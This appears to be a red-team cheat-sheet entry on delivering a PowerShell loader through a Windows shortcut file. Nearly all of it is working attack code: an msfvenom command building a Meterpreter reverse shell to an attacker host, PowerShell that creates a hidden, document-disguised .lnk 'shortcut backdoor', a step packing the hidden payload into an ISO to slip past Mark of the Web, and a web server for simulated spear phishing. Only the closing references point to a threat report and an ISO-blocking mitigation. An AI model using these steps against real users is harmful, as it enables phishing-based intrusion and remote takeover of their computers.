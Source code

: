 # Powershell Loader via Shortcut LNK

Search Tag(s): #initial-foothold #defense-evasion #windows #scenarios

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=80 -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | basenc -d --base64 > implant.ps1
```

Transfer the generated powershell reverse shell to the windows box to create `.lnk` shortcut and pack them into an ISO file

```powershell
PS C:\> $shortcutPath = "[<drive_letter>:]\path\to\directory\file.lnk"  
$WshShell = New-Object -ComObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut($shortcutPath)  
$Shortcut.TargetPath = 'conhost.exe'  
$Shortcut.Arguments = "--headless powershell.exe -noni -nop -ep bypass -file implant.ps1"  
$Shortcut.Description = "A shortcut backdoor"  
$Shortcut.IconLocation = 'C:\path\to\document.docx'  
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload  
$Shortcut.WindowStyle = 7  
$Shortcut.WorkingDirectory = "C:\Users\" + Eenv:USERNAME + "\Public"  
$Shortcut.Save()
```

Pack the files in a container.

```
$ packmypayload [--vhd-filesystem <fat | fat32 | ntfs>] --hide [<drive_letter>:]\path\to\directory\implant.ps1 --out-format iso C:\path\to\directory\ ISO_File.iso
```

Then copy the ISO File to your attacker machine and start a web server to simulate the spear phishing attack then finally you'll see **MOTW (Mark of the Web)** has not contaminated the `.lnk` shortcut file.

```
$ sudo python -m http.server 80
```

---
## References

- [Bumblebee Returns with New Infection Technique](https://blog.cyble.com/2022/09/07/bumblebee-returns-with-new-infection-technique/)

### Mitigation

- [Malicious.link: Blocking ISO mounting](https://room362.com/posts/2022/blocking-iso-mounting/)